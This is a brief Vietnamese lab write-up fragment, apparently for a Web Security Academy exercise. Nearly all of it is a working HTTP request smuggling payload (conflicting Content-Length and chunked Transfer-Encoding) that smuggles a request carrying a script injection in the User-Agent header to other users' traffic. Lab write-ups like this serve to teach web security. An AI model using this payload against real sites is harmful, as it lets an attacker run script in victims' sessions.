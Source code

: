Payload:
```http
POST / HTTP/1.1
Host: 0a42000c040d9f0485cb9b7100660068.web-security-academy.net
Content-Length: 265
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Host: 0a42000c040d9f0485cb9b7100660068.web-security-academy.net
Cookie: session=Un5LmGcPja7oTMQ1oCjPlTygGM8wNmSF
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
Gửi vài lần cho đến khi có user request sẽ được tính solved

---

Còn lab expert










